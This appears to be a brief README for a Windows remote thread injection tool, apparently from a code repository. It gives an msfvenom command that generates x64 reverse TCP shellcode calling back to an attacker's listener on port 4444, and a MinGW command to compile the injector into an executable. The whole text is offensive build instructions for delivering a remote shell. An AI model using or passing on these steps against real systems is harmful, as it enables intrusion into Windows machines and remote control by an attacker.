 ## Remote Thread Injection Using Standard Windows APIs
create your shellcode and replace it in code:
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=4444 -b '\x00\x0a\x0d' -f c
```

compile it in kali using **MinGW**:
```sh
x86_64-w64-mingw32-gcc main.c -o rti.exe
```
